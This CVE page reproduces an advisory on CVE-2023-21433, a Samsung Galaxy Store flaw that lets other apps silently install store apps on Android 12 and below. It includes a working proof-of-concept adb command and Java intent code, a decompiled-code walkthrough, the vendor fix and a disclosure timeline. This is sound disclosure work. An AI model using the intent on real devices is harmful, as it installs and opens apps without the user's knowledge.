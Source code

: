 ```yaml
---
layout: cve
title: "Samsung Galaxy Store Arbitrary Application Install"
cve_id: "CVE-2023-21433"
date: 2023-01-01
reference: 
  - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-21433
  - https://security.samsungmobile.com/serviceWeb.smsb?year=2023&month=1
description: "Improper access control vulnerability in Galaxy Store prior to version 4.5.49.8 allows local attackers to install applications from Galaxy Store."
---
```


#### Original post: [https://research.nccgroup.com/2023/01/20/technical-advisory-multiple-vulnerabilities-in-the-galaxy-app-store-cve-2023-21433-cve-2023-21434/](https://research.nccgroup.com/2023/01/20/technical-advisory-multiple-vulnerabilities-in-the-galaxy-app-store-cve-2023-21433-cve-2023-21434/)

|    **Product**    | Galaxy Store 4.5.44.1, other versions affected |
|    **Severity**   |                  High                  |
| **CVE Reference** |             CVE-2023-21433             |
|      **Type**     |      Automatic Application Install     |

## Summary

It was found that the Galaxy App Store has an exported activity which does not handle incoming intents in a safe manner. This allows other applications installed on the same Samsung device to automatically install any application available on the Galaxy App Store without the user’s knowledge.

It should be noted that due to the changes made to Android 13, this issue only affects Samsung devices that are running Android 12 and below.

## Impact

A pre-installed rouge application on a Samsung device running Android 12 or below can abuse this issue to install any application currently available on the Galaxy App Store.

## Proof of Concept (PoC)

The following adb command can be used to abuse this issue to automatically install the application “Pokemon Go”:

```
am start -n com.sec.android.app.samsungapps/.detail.alleypopup.AlleyDetailActivity --es GUID com.nianticlabs.pokemongo.ares --ez directInstall true --ez directOpen true
```

Alternatively, the following Java code can be used to perform the same action:

```
Intent intent = new Intent();
intent.setComponent(new ComponentName("com.sec.android.app.samsungapps", "com.sec.android.app.samsungapps.detail.alleypopup.AlleyDetailActivity"));
intent.putExtra("GUID", "com.nianticlabs.pokemongo.ares");
intent.putExtra("directInstall", true);
intent.putExtra("directOpen", true);
startActivity(intent);
```

## Technical Walkthrough

After executing the PoC, the activity `com.sec.android.app.samsungapps.detail.alleypopup.AlleyDetailActivity` method `onCreate(bundle)` processes the incoming intent. As a part of this function, one of two methods will be executed depending on if the incoming intent contained a data property:

```
public class AlleyDetailActivity {
...
public void onCreate(Bundle bundle) {
    ...
    Intent intent = getIntent();
    Uri data = intent.getData();
    ...
    if (data == null) {
        a(intent);
    } else {
        e();
    }
    ...
}
```

The PoC did not add a data property to the new intent, so the method `a(intent)` gets executed, while passing the calling intent as an argument. Within `a(intent)`, the intent and its extras are passed to class `com.sec.android.app.samsungapps.detail.alleypopup.AlleyBundleContainer` method `parseValues(bundle, intent)`:

```
public class AlleyDetailActivity {
...
public void a(Intent intent) {
    ...
    Bundle extras = intent.getExtras();
    AlleyBundleContainer bundleContainer = getBundleContainer();
    ...
    if (extras != null) {
        this.f = bundleContainer.parseValues(extras, intent);
    }
    ...
}
```

The method `parseValues(bundle, intent)` parses the intent extras and adds them to a Content object. Some of the important values include:

* "GUID" = the package name of the application to be installed
* 'directInstall" = if the package should be automatically installed
* "directOpen" = if the application should be opened right after it is installed

```
public class AlleyBundleContainer {
...
public ContentDetailContainer parseValues(Bundle bundle, Intent intent) {
    Content content = new Content();
    String string = bundle.getString(“GUID”);
    content.setGUID(string);
    ...
    this.g = bundle.getBoolean(“directInstall”, false)
    this.h = bundle.getBoolean(“directOpen”, false)
    ...
    return content;
}
```

Later, since `directInstall` is set to true, the application will execute the method `J()` within the `AlleyDetailActivity` class. This method will then execute the method `b(AlleyDetailActivity)` within the class `com.sec.android.app.samsungapps.detail.alleypopup.b`:

```
public class AlleyDetailActivity {
...
public void J() {
    ...
    if (this.d == Constant_todo.AppType.APP_NOT_INSTALLED || this.d == Constant_todo.AppType.APP_UPDATABLE) {
        b.b(this);
    }
}
```

The method `b(AlleyDetailActivity)` will then setup a task to download and install the target application which was previously specified by the incoming intent. After the application is installed, since `directOpen` was set to “True”, the Galaxy App Store application will open the newly installed application.

## Recommendation

For Samsung devices running Android 12 or lower, Samsung has released an updated version of the Galaxy App Store (version 4.5.49.8). Users should open the Galaxy App Store on their phone, and if prompted, download and install the latest version.

This issue does not affect devices running Android 13. Users should still update their Galaxy App Store to the latest version to address potentially other issues.

## Timeline

|    **Date**    | **Summary** |
|   23/11/2022   | Samsung notified of vulnerability |
|   23/11/2022   | Samsung acknowledge receipt of report and a security analyst was assigned to analyze the report |
|   11/12/2022   | Samsung confirmed the vulnerability and rated it as a High risk |
|   01/01/2023   | Samsung has released Galaxy App Store version 4.5.49.8 and has publicly disclosed the issue |